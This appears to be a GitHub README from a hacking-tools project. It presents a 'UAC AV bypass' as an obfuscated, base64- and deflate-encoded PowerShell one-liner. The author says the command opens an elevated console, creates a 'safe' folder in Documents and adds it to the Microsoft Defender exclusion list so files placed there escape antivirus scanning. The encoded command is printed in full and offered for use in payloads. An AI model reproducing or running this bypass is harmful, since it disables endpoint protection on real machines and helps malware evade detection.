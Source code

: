 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Examples">Examples</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# User-Access-Control Anti-Virus Bypass

## Description

A UAC AV bypass 

## The Function

### [FUNCTION-NAME] 

To avoid the Anti-Virus blocking this I had to heavily obfuscate and encode this command (test in a sand box environment need be)
This command will open a powershell console with admin privledges and create a directory called "safe" in the Document folder 
This directory that is created will be added to the Microsoft Defender Exclusionns list which makes it ignored by AntiVirus scans 
Any files downloaded or ran from here will be ignored by the anti virus

```
iNVOke-ExpResSion (NEw-oBjECt  SysTem.Io.COmPreSSioN.dEFLaTESTrEaM( [SySTeM.IO.MEmorysTReAm][SYstEm.COnvERT]::frOMBasE64sTrINg('hZBPT8JAFMS/yqbhWsBIvBAOsxVao5UsDURIL/3z2KotbbrFqp/efSUmnvD0drIzvze7o6zKxUI4qZItfIVEyS94gOpxh1WPnZLf8LfItJ1WW18DP0QCWbDeQH6wzpXs2JdqOUUQ4gWcW+KgZYl7A6XkO/OflHxGAGxh91j/cB884KDkmTkHBQ1vio2SM9Yp5A3zbC+7Z8a5AoHtCetbhlhrmWFl+/UXjp0Z/Cn73+Br7JXVS4W0tzrYcv+SOTku77H+Av6e9y6c+Wgd+gunqXtqTUFlOaZPEi6dMjHif3LmLWmR5PYUPHrbOKqPXZ+0FHtlYgyZeFxXOo44Ga8bOsVZXVXJKXfEJBfMFpPjf4jKuIa67vWkTeyd2x21Q9phtMP5Y53bBQ21XG4edUnbuVFJ1AjXiNsBn1NJHV0t6fxWue7922aI/AA='),[sYStem.Io.comPreSsiOn.CoMpREssiOnMode]::DEcomPResS )|fOReaCh{ NEw-oBjECt sYStEm.iO.STrEamrEaDeR( $_ , [syStEM.texT.eNCOdiNG]::AsciI ) }| fOreAch{$_.reAdToENd( )})

```

<p align="right">(<a href="#top">back to top</a>)</p>


## Examples 
[//]: # (Examples of scripts that have used your function) 
Listed below are payloads that have used one of these functions:

No payloads are currently using this bypass. Some will be soon.


<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<div><h2>I am Jakoby</h2></div>
  <p><br/>

  <img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 

  <a href="https://github.com/I-Am-Jakoby/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>

  <a href="https://www.instagram.com/i_am_jakoby/">
    <img src="https://img.shields.io/badge/Instagram-i__am__jakoby-red">
  </a>

  <a href="https://twitter.com/I_Am_Jakoby/">
    <img src="https://img.shields.io/badge/Twitter-I__Am__Jakoby-blue">
  </a>

  <a href="https://www.youtube.com/c/IamJakoby/">
    <img src="https://img.shields.io/badge/YouTube-I_am_Jakoby-red">
  </a>

  [Project Link](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers)
</p>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [UberGuidoZ](https://github.com/UberGuidoZ)


<p align="right">(<a href="#top">back to top</a>)</p>
